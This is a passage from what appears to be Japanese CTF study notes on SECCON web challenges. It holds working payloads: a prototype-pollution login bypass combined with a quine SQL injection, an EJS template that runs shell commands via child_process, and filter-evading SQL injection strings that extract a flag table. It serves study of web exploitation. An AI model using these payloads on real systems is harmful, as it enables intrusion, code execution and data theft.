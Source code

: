 つまり、`tmp.id`,`tmp.pw`には値は入らないので`if(typeof tmp.pw !== "undefined"){`のpwのフィルタリングをbypassできる。  
for文で`user[key]=tmp[key]`のように値を代入して行く場合、`user.id`とかは定義されていない(`user={}`で初期化されてるだけ)ので`user.__proto__.id`を調べに行く。ここで、`user.__proto__.id`は`Object.prototype.id`と同義なので`admin`とかの値が入る。  
`for(var key in tmp){`では`key`には`"__proto__"`一つだけが入るのでは？？と思ったけどどうやらそうではなく、`"pw"`,`"id"`が入るらしい…。`"__proto__"`の場合だけ特別なんかな？？？   
```txt
{
	"__proto__":{"id":"admin", "pw": " '#~` "}
}
```
さらにこのDBには値がないも入っていないため、`row.pw === user.pw`を突破できない。  
そのため、Quine SQL Injectionという、入力したSQL構文と丸切り同じSQL構文を検索結果として返す特殊なSQL Payloadを使うらしい。  
```txt
{
	"__proto__":{"pw":"' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')--')--')--","id":"admin"}
}
```
これでadminになった後に、以下のようなFlagを表示させるEJSをUploadして実行する  
```txt
  <%- global.process.mainModule.require('child_process').execSync('cat app.js') %>
```
- **payload**  
```txt
{
	"__proto__":{"pw":"' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')--')--')--","id":"admin"}
}
```
```txt
  <%- global.process.mainModule.require('child_process').execSync('cat app.js') %>
```
- **Prototype Pollutionの参考**  
https://qiita.com/koki-sato/items/7b78f9ec139230b95beb  
https://jovi0608.hatenablog.com/entry/2018/10/19/083725  
## bypass filtering space 'or' '|' ',' / 検索フォーム　(SECCON CTF 2019 予選 web_search)
https://kinako-mochimochi.hatenablog.com/entry/2019/10/20/203747  
https://st98.github.io/diary/posts/2019-10-20-seccon-online-ctf.html  
- **entrypoint**  
` `,`or`,`!`,`,`,`|`,`%`が使えないらしい。  
` `は`/**/`やタブ文字や改行、`or`は`oorr`(再帰的に削除していないから)、`,`は`join`で制限を回避！  
```txt
sqlite> select 1, 2, 3 union select * from (select 4) a join (select 5) b join (select 6) c;
1|2|3
4|5|6
```
`'oorr(1);#`を入力すれば、`' or 1;#`と同じことができるらしい。ただこれだと今回はダメで「flagテーブルにFlagがある」というメッセージがでる。  
`neko'union/**/select*from(select/**/1)a/**/join(select/**/column_name/**/from/**/infoorrmation_schema.columns/**/where/**/table_name='flag')b/**/join(select/**/3)c;#`で`piece`というカラム名を取得。  
`neko'union/**/select*from(select/**/1)a/**/join(select/**/piece/**/from/**/flag)b/**/join(select/**/3)c;#`でFlagが出る！  
- **payload**  
`neko'union/**/select*from(select/**/1)a/**/join(select/**/piece/**/from/**/flag)b/**/join(select/**/3)c;#`  
## inject in limit (SECCON beginners CTF 2020 Tweetstore)
https://lorse.hatenablog.com/entry/2020/05/24/172016  
- **entrypoint**  
配布されたGoLangのソースは以下の通り。  
DBにはpostgresを使っており、User名がFlagになっているとわかる。SQLを組み立てるあたりでSQLInjectionができうる。  